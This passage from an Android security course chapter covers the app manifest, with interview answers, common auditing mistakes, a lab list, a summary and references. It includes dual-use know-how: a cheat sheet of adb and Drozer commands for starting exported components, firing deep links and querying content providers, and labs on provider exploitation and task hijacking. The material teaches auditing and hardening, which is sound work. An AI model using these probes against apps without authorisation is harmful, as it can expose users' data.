Each `targetSdk` increment activates a bundle of platform defaults that would otherwise have to be
implemented by hand: explicit component export, `PendingIntent` immutability, scoped storage,
cleartext blocking, package-visibility filtering, receiver export declarations, foreground service
typing. Deferring the upgrade does not preserve the status quo; it preserves a *weaker* security
posture indefinitely while the threat model moves on. Frame it as debt with a compounding interest
rate, quantify it as the specific list of protections not currently active, and point at the
platform's minimum-target-for-install policy, which turns the debt into a hard deadline.

### Principal Engineer

**Q: Android made `android:exported` mandatory at `targetSdk` 31. Evaluate that decision.**
The case for it: the previous default — exported if a filter is present — was implicit, surprising,
and produced a very long tail of unintentionally exported components across the ecosystem. Forcing an
explicit declaration converts a silent default into a decision with an author. The case against: a
forced decision under time pressure produces *the answer that makes the build work*, and a
significant number of developers wrote `exported="true"` to fix a build break, so the change
converted some implicit exports into explicit ones without reducing the actual attack surface. The
lesson generalises: a migration that forces a choice must make the *safe* choice the easy one. A
better design would have failed the build with a message proposing `false` as the default fix, and
required a justification comment for `true`. Overall the change was net-positive because it made the
surface auditable — `grep exported="true"` now means something — but its effectiveness was limited by
the ergonomics of the migration.

**Q: If you could redesign the manifest, what would you change and what would you keep?**
Keep the fundamental property: a static, pre-execution declaration parsed by the platform. That is
what makes Android auditable at all, and it is why the manifest remains the best starting point for
any assessment. Change: eliminate defaults that depend on `targetSdkVersion`, since they make the
document unreadable without external context; make every access-control decision explicit and
positive rather than inferred from absence; replace `<path-permission>`'s OR semantics with an
explicit deny/allow ordering, because the current semantics reliably produce the opposite of the
developer's intent; require library-contributed components to be *acknowledged* in the application's
own manifest rather than merged silently; and give the manifest a canonical serialisation with a
single conformant parser and a published test corpus, so that parser differentials stop being an
evasion technique. The deeper principle is that a security-critical configuration format should have
no defaults, no implicit merging, and exactly one parser.

**Q: How do you reason about the residual risk of an app whose manifest is perfect?**
A perfect manifest closes the *declared* surface. It says nothing about dynamically registered
receivers, runtime-enabled components, `PendingIntent` handling, in-process web content, native
listeners on localhost sockets, `PackageManager.addPermission` on a permission tree, or code loaded
at runtime. A manifest audit is a necessary first pass that bounds the static surface; the remaining
work is enumerating the surface that only exists while the process is alive. State that distinction
explicitly in reports, or a clean manifest section will be read as a clean application.

---

## 11. Common Mistakes

### Developer mistakes

- **Adding an `<intent-filter>` for internal navigation**, which exports the component to the whole
  device. Use an explicit `Intent` with a `ComponentName` instead.
- **Omitting `protectionLevel` on a custom permission**, which silently makes it `normal` and
  therefore no protection at all.
- **Setting `readPermission` and forgetting `writePermission`** on a provider.
- **Believing `<path-permission>` restricts access** when it adds an alternative grant path.
- **Setting `exported="true"` to fix an API 31 build failure** without asking whether the component
  should be reachable.
- **Never opening the merged manifest**, and therefore not knowing about SDK-injected components,
  permissions and providers.
- **Shipping debug build-type overrides** — `debuggable`, permissive network security config, test
  instrumentation — because a flavour/build-type matrix was misconfigured.
- **Pasting an SDK secret into `<meta-data>`** because the SDK's own documentation says to.
- **Relying on `android:excludeFromRecents` or `noHistory` to prevent screenshot leakage.** The
  control for that is `FLAG_SECURE` on the window. See [33-Storage](../33-Storage/README.md).
- **Leaving `allowBackup` at its default of `true`** and assuming that "we don't use backup" means
  data is not backed up. The default is opt-out, not opt-in.
- **Using `sharedUserId` to share data between two of their own apps**, which dissolves the sandbox
  between them permanently and cannot be undone after release.
- **Assuming R8 obfuscation hides component names.** It cannot; the platform resolves them by string.

### Pentester mistakes

- **Reporting reachability proved only from `adb shell`.** UID 2000 is not an attacker. Build the
  unprivileged PoC.
- **Reporting every exported component at the same severity** without reading what it does. This is
  the signature of a report generated by a tool rather than a person.
- **Trusting one decoder.** Cross-check `aapt2`, `apktool` and `dumpsys`.
- **Missing `<activity-alias>`** by grepping only for `<activity`.
- **Missing `<instrumentation>` and `<profileable>`** by stopping at `</application>`.
- **Not resolving `@xml/` references** — the network security config, the FileProvider paths, the
  accessibility config and the backup rules are where the real content is.
- **Not checking the `protectionLevel` of the permission that "protects" a component.** Use
  `pm list permissions -f`.
- **Reporting a `BIND_ACCESSIBILITY_SERVICE`- or `BIND_DEVICE_ADMIN`-protected exported component as
  a finding.** Those are correct configurations; only the system holds those permissions.
- **Reporting an unrestricted-looking API key without validating it.** Many are public by design.
- **Auditing the source manifest instead of the shipped artefact**, and thereby missing every
  placeholder substitution and every merged contribution.
- **Ignoring `targetSdkVersion`** and therefore misjudging every default in the file.
- **Forgetting that the manifest does not describe dynamically registered receivers**, so declaring
  the receiver surface "fully enumerated" when it is not.
- **Testing only on one Android version.** A finding that is blocked on Android 14 may be live on the
  Android 9 devices that make up a meaningful share of the client's user base — and `minSdkVersion`
  tells you whether that matters.

### Reverse engineer mistakes

- **Assuming the manifest lists all the code that runs.** Providers with a high `initOrder` and
  `appComponentFactory` both execute before `Application.onCreate`.
- **Ignoring the `android:name` of `<application>`**, which is the first class you should open.
- **Assuming a class named in the manifest exists in `classes.dex`.** If it does not, you are looking
  at a packer.
- **Treating `android:enabled="false"` as "unreachable"** without grepping for
  `setComponentEnabledSetting`.
- **Not reading `<queries>`**, which on a hardened or malicious app is a free list of the exact
  packages the app looks for.
- **Reading `versionName` and believing it.**
- **Rebuilding with `apktool` and not noticing that the rebuild changed behaviour** — resource IDs,
  signature, and occasionally manifest attributes are not always round-tripped perfectly. Always
  diff `aapt2 dump xmltree` of the original and the rebuild.

---

## 12. Hands-on Labs

Full lab material lives in [`labs/`](labs/).

| Lab | Objective | Difficulty |
|---|---|---|
| [Lab 01 — Reading a manifest three ways](labs/lab-01-three-way-read.md) | Extract and compare the manifest with `aapt2`, `apktool` and `dumpsys`; learn to read AXML raw types | Beginner |
| [Lab 02 — The full audit](labs/lab-02-full-audit.md) | Apply the §5.6 checklist to the planted-vulnerability manifest in `examples/` and produce a severity-rated findings table | Intermediate |
| [Lab 03 — Proving reachability](labs/lab-03-proving-reachability.md) | Build a minimal unprivileged PoC app and prove which components are genuinely attacker-reachable, including a task-hijacking demonstration | Intermediate |
| [Lab 04 — Provider surgery](labs/lab-04-provider-surgery.md) | Exploit an exported provider: enumerate authorities, dump data, test `<path-permission>` semantics, and demonstrate path traversal | Advanced |
| [Lab 05 — Manifest merging and SDK injection](labs/lab-05-merge-and-inject.md) | Build an app with a library that injects components, read the merger report, and remove the injection with `tools:node` | Intermediate |
| [Lab 06 — CTF: The lying manifest](labs/lab-06-ctf-lying-manifest.md) | A set of challenges where the decoded manifest and the device disagree; find the real configuration and the flag | Advanced |

**Assignment.** Take any three apps from your own phone, pull their APKs, and run the full §5.6
checklist on each by hand — no scripts. Then run
[`scripts/manifest-audit.py`](scripts/manifest-audit.py) and compare. Every difference is either a
gap in your process or a gap in the script; fix whichever it is. Doing this three times is what turns
the checklist into instinct.

---

## 13. Summary

### Key points

- The manifest is the pre-execution declaration of an app's entire static attack surface, and the
  platform enforces the *parsed* manifest, not the file you read.
- The file inside an APK is binary AXML, attributes are keyed by resource ID rather than by name, and
  booleans are "non-zero is true". Independent decoders can be made to disagree with the platform, so
  cross-check `aapt2 dump xmltree`, `apktool` and `adb shell dumpsys package`.
- `targetSdkVersion` changes the default value of a dozen security-relevant behaviours. Read it
  first; every other conclusion depends on it.
- Components with an `<intent-filter>` are exported by default below `targetSdk` 31; providers flipped
  to non-exported by default at `targetSdk` 17.
- `<activity-alias>` has its own independent `exported` and `permission`. Audit it separately.
- A custom permission with no `protectionLevel` is `normal`, which means it is granted to any app that
  asks and provides no protection whatsoever.
- `<path-permission>` grants an *alternative* route to access; it frequently widens rather than
  restricts, and paths matching no rule are open when no component permission is set.
- `<instrumentation>` and `<profileable android:shell="true">` sit outside `<application>` at the
  bottom of the file and are missed constantly. Both are real findings in a release build.
- `<meta-data>` is where SDK integration guides tell developers to paste API keys.
- The merged manifest contains components, permissions and providers the developer never wrote.
  Attribute them to their SDK and give the developer the `tools:node` snippet to remove them.
- Obfuscation cannot hide component class names, permission strings, authorities, actions or intent
  filter data. The manifest is the unobfuscatable index into an obfuscated app.
- `adb shell` is UID 2000 and is not an attacker. Prove reachability from an unprivileged app.
- The manifest does not describe dynamically registered receivers, runtime-enabled components, or
  permissions added through a `<permission-tree>`. A manifest audit bounds the static surface only.

### Mind map



### Condensed cheat sheet

| Need | Command |
|---|---|
| Platform-accurate manifest dump | `aapt2 dump xmltree --file AndroidManifest.xml app.apk` |
| Human summary | `aapt2 dump badging app.apk` |
| Readable XML + resources | `apktool d app.apk -o work` |
| Ground truth from device | `adb shell dumpsys package <pkg>` |
| Application flags (debuggable etc.) | `adb shell dumpsys package <pkg> \| grep -E 'flags='` |
| Real protection level of a permission | `adb shell pm list permissions -f \| grep -A6 <perm>` |
| App Links verification state | `adb shell pm get-app-links <pkg>` |
| Who handles this URI | `adb shell pm resolve-activity --brief -a android.intent.action.VIEW -d "<uri>"` |
| Start a component with extras | `adb shell am start -n <pkg>/<cls> --es k v --ez flag true` |
| Fire a deep link | `adb shell am start -a android.intent.action.VIEW -c android.intent.category.BROWSABLE -d "<uri>"` |
| Query a provider | `adb shell content query --uri content://<auth>/<path>` |
| Reachability from a normal app | Drozer `run app.package.attacksurface <pkg>` or a PoC APK |
| Merged manifest with source | `app/build/outputs/logs/manifest-merger-<variant>-report.txt` |
| Exported by default (no attribute) | Any component with `<intent-filter>` and `targetSdk` < 31 |
| Permission that protects nothing | `protectionLevel` absent or `normal` |

### Quick revision

- What are the first four bytes of a compiled AXML file, and why does that matter?
- Which key does the platform use to match a manifest attribute — the name or the resource ID?
- Name the `targetSdk` values at which exported-by-default, cleartext, scoped storage, package
  visibility, receiver export flags and foreground service types changed.
- What is the default `exported` value for a provider on `targetSdk` 16 versus 17?
- What is the default `protectionLevel` when the attribute is omitted?
- Why can an `<activity-alias>` defeat an Activity's `exported="false"`?
- Explain in one sentence why `<path-permission>` usually widens access.
- Which two manifest elements sit outside `<application>` and are commonly missed?
- Name three things that can appear in the merged manifest that the developer never wrote.
- Why is `am start` succeeding against a non-exported component not a finding?
- Which manifest strings can obfuscation never change?
- Where do you look on-device to see whether a component's enabled state was changed at runtime?

---

## 14. References

Full annotated list in [`references/README.md`](references/README.md).

### AOSP source

- `frameworks/base/core/res/res/values/attrs_manifest.xml` — every manifest attribute the platform
  understands, with its resource ID. The definitive reference.
- `frameworks/base/core/res/AndroidManifest.xml` — every platform permission with its real
  `protectionLevel`.
- `frameworks/base/libs/androidfw/ResourceTypes.cpp` and `include/androidfw/ResourceTypes.h` — the
  AXML chunk format and `ResXMLTree`.
- `frameworks/base/core/java/android/content/pm/PackageParser.java` — the historical parser; still the
  clearest single description of the manifest grammar.
- `frameworks/base/services/core/java/com/android/server/pm/pkg/parsing/ParsingPackageUtils.java` —
  the modern parser.
- `frameworks/base/core/java/android/content/pm/ApplicationInfo.java` — the `FLAG_*` constants.
- `frameworks/base/core/java/android/content/ContentProvider.java` —
  `enforceReadPermissionInner` / `enforceWritePermissionInner`.
- `frameworks/base/services/core/java/com/android/server/wm/ActivityStarter.java` — the export and
  permission check for Activity starts.
- `frameworks/base/services/core/java/com/android/server/am/ActiveServices.java` — the equivalent for
  services.
- Android Code Search: <https://cs.android.com/>

### Official documentation

- App manifest overview — <https://developer.android.com/guide/topics/manifest/manifest-intro>
- `<manifest>` element reference — <https://developer.android.com/guide/topics/manifest/manifest-element>
- `<application>` — <https://developer.android.com/guide/topics/manifest/application-element>
- `<activity>` — <https://developer.android.com/guide/topics/manifest/activity-element>
- `<activity-alias>` — <https://developer.android.com/guide/topics/manifest/activity-alias-element>
- `<service>` — <https://developer.android.com/guide/topics/manifest/service-element>
- `<receiver>` — <https://developer.android.com/guide/topics/manifest/receiver-element>
- `<provider>` — <https://developer.android.com/guide/topics/manifest/provider-element>
- `<path-permission>` — <https://developer.android.com/guide/topics/manifest/path-permission-element>
- `<permission>` and `protectionLevel` — <https://developer.android.com/guide/topics/manifest/permission-element>
- `<queries>` and package visibility — <https://developer.android.com/training/package-visibility>
- App components and `android:exported` (Android 12) — <https://developer.android.com/about/versions/12/behavior-changes-12#exported>
- Behaviour changes by API level — <https://developer.android.com/about/versions>
- Manifest merger — <https://developer.android.com/build/manage-manifests>
- App Links verification — <https://developer.android.com/training/app-links/verify-android-applinks>
- Foreground service types — <https://developer.android.com/about/versions/14/changes/fgs-types-required>
- Direct Boot — <https://developer.android.com/training/articles/direct-boot>

### OWASP

- OWASP MASVS — <https://mas.owasp.org/MASVS/>
- OWASP MASTG — <https://mas.owasp.org/MASTG/>
- MASTG Android platform APIs and IPC tests (MASVS-PLATFORM)
- MASTG "Testing App Permissions", "Testing for Sensitive Functionality Exposure Through IPC",
  "Testing Deep Links", "Testing whether the App is Debuggable"

### Related chapters

- [10-APK-Internals](../10-APK-Internals/README.md) — the container the manifest lives in
- [23-Permissions](../23-Permissions/README.md) — how permission grants actually work
- [24-IPC](../24-IPC/README.md) and [25-Binder](../25-Binder/README.md) — the transport under every
  component call
- [26-Intent](../26-Intent/README.md) — intent resolution and `PendingIntent`
- [27-ContentProviders](../27-ContentProviders/README.md) — exploiting the provider surface
- [28-Services](../28-Services/README.md), [29-BroadcastReceivers](../29-BroadcastReceivers/README.md),
  [30-Activities](../30-Activities/README.md) — component-specific attacks
- [33-Storage](../33-Storage/README.md) — what `allowBackup` and the storage attributes expose
- [44-NetworkSecurityConfig](../44-NetworkSecurityConfig/README.md) — the file
  `android:networkSecurityConfig` points at
- [52-StaticAnalysis](../52-StaticAnalysis/README.md) — the wider static workflow
- [77-UsefulCommands](../77-UsefulCommands/README.md) — the command reference
